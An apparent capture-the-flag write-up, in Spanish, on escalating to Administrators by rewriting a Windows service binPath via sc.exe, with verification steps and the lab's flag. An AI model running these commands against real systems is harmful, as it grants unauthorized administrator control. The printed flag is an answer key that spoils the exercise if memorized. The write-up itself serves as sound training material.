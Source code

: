 
El siguiente paso es modificar la ruta binaria del servicio:

```powershell
sc.exe config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

<img width="928" height="105" alt="image" src="https://github.com/user-attachments/assets/9a657404-869f-45bd-bc1c-69a81481287d" />

Esto significa que cuando intentemos iniciar el servicio, se intentará acceder a la ruta establecida en `binPath`. El servicio no podrá iniciarse, paralelamente se ejecutará el comando establecido, que agrega nuestro usuario `server_adm` al grupo `Administrators`.

El siguiente paso es intentar iniciar el servicio y comprobar que el sistema no pude inicializarlo:
```powershell
sc.exe start AppReadiness
```

<img width="916" height="106" alt="image" src="https://github.com/user-attachments/assets/fd8e24a5-d21f-4d8b-9114-b415dc9386a9" />

- Confirmación la ejecución del comando visualizando la membresía del grupo `Adminisrtators`:
```powershell
net localgroup Administrators
```

<img width="866" height="214" alt="image" src="https://github.com/user-attachments/assets/1fb90434-b6ae-4081-a802-5a56cdeb2eda" />

Por lo que confirmamos que ya formamos parte de el grupo `Administrators`.


Intentamos abrir el archivo que contiene la flag:
```powershell
cat C:\Users\Administrator\Desktop\ServerOperators\flag.txt
```
<img width="985" height="287" alt="image" src="https://github.com/user-attachments/assets/d9eb6e35-c11c-4e1e-8ada-1b513b7590e2" />

No tenemos acceso.



Reiniciamos el host mediante `shutdown /f` y abrimos el archivo utilizando una powershell elevada:
```powershell
cat C:\Users\Administrator\Desktop\ServerOperators\flag.txt
```
<img width="663" height="138" alt="image" src="https://github.com/user-attachments/assets/7a5c4035-e773-4326-922c-e9f76025e5d4" />

`Nota`: Cuando se agrega una cuenta a un grupo, el token de acceso que Windows asocia a la sesión del usuario no se actualiza automáticamente. Ese token contiene los grupos y privilegios efectivos. Al reiniciar, la sesión se crea de nuevo y el sistema genera un token nuevo que ya incluye la pertenencia a `Administrators`.

`Flag`: `S3rver_0perators_@ll_p0werfull!`
